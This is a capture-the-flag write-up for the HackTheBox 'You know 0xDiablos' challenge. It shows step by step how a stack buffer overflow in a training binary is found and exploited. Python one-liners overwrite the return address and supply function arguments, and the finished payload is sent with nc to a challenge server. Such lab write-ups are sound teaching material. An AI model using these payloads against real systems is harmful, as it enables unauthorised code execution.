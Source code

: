 ```yaml
---
title: You know 0xDiablos HackTheBox
published: true
tags: [htb ctf pwn bof buffer overflow stack little endian gdb radare2 r2]
---
```

# You know 0xDiablos
## challenge description
> I missed my flag

## trying a large input to cause an overflow

- By executing the binary with a large input delivers us a segmentation fault

```bash
python2 -c "print 'A' * 300 " | ./vuln
```

`37978 segmentation fault (core dumped)  ./vuln`

## investigating the error

- by debugging the binary with `gdb` and the same input we get the following error message: Cannot access memory at address `0x41414141`

> this is the part of the input which overwrites the return pointer which is restored when the `vuln` functions returns the `main` function

- next we can use an unique pattern to get the exact part of the input which overflows
- using this pattern: `Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9` results in the following error: `Cannot access memory at address 0x33674132`
- calculating the offset results in: `188`

> Note: the memory address is in little-endian

## crafting the payload

- in order to print the contents of of the flag we have to manipulate the callflow to call the `flag` function at address: `0x80491e2`

```bash
python2 -c "print 'A' * 188 + '\xe2\x91\x04\x08'" | ./vuln
```

results in: 

```
You know who are 0xDiablos:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Hurry up and try in on server side.
```

Hurray!!! Lets test it: 

```bash
python2 -c "print 'A' * 188 + '\xe2\x91\x04\x08'" | nc 165.232.98.156 30180

You know who are 0xDiablos:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

- no flag ... let's investigate

## fix callflow

- by checking the `flag` function we have to pass three checks in order to simulate the envionment on the server and print the flag

1. there have to be a file called `flag.txt` 
![file existence](../assets/youknow-file-existence.png)
2. `$rbp+0x8` has to be equal to `0xdeadbeef`
![deadbeef check](../assets/youknow-deadbeef-check.png)
3. `$rbp+0xc` has to be equal to `0xc0ded00d`
![c0ded00d check](../assets/youknow-c0ded00d-check.png)

- luckily we can manipulate `$rbp+0x8` and `$rbp+0xc` by extending the input: 
```bash
python2 -c "print 'A' * 188 + '\xe2\x91\x04\x08' + '\x41\x42\x43\x44' + '\xef\xbe\xad\xde' + '\x0d\xd0\xde\xc0'" | nc 165.232.98.156 30180
```

- we get the flag 


